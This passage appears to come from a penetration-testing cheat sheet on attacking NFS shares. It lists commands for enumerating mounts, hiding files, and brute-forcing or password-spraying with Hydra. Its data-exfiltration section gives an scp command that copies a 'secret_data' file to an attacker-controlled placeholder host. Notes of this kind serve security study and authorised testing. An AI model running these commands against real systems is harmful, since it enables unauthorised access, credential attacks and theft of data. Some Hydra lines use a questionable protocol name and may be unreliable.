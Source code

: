 ### Enumerating Mounted Shares
- **Tool:** [[Mount]]
	```bash
	mount | grep nfs
	df -h | grep nfs
	```
- **Description:** Identify NFS shares mounted within the target environment, potentially leading to further exploitation.

## Defense Evasion

### Hiding Malicious Files on NFS
- **Tool:** Manual Configuration
    ```bash
    mv /mnt/share/normal_file /mnt/share/.hidden_file
    ```
- **Description:** Hide malicious files within NFS shares using Unix file hiding techniques.

## Data Exfiltration

### Exfiltrating Data via NFS
- **Tool:** [[Mount]], [[SCP]]
    ```bash
    scp /mnt/share/secret_data.txt <attack_ip>:/stolen_data/
    ```
- **Description:** Exfiltrate data stored on NFS shares to a remote attacker-controlled server.

# Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra mount://<target_ip> -s 2049 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra mount://<target_ip> -s 2049 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service
